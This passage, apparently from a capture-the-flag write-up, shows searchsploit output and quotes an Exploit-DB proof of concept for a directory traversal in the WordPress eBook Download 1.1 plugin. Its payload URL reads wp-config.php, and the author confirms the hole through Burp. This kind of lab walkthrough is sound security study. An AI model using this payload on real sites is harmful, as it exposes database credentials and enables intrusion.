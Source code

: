 ```
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

```
$ searchsploit -x php/webapps/39575.txt
  Exploit: WordPress Plugin eBook Download 1.1 - Directory Traversal
      URL: https://www.exploit-db.com/exploits/39575
     Path: /usr/share/exploitdb/exploits/php/webapps/39575.txt
File Type: ASCII text
```

```
# Exploit Title: Wordpress eBook Download 1.1 | Directory Traversal
# Exploit Author: Wadeek
# Website Author: https://github.com/Wad-Deek
# Software Link: https://downloads.wordpress.org/plugin/ebook-download.zip
# Version: 1.1
# Tested on: Xampp on Windows7

[Version Disclosure]
======================================
http://localhost/wordpress/wp-content/plugins/ebook-download/readme.txt
======================================

[PoC]
======================================
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
======================================
```

Sending a request to repeater in burp we can quickly confirm this.

[![015_lfi_burp](/img/backdoor/015_lfi_burp.png)](/img/backdoor/015_lfi_burp.png)

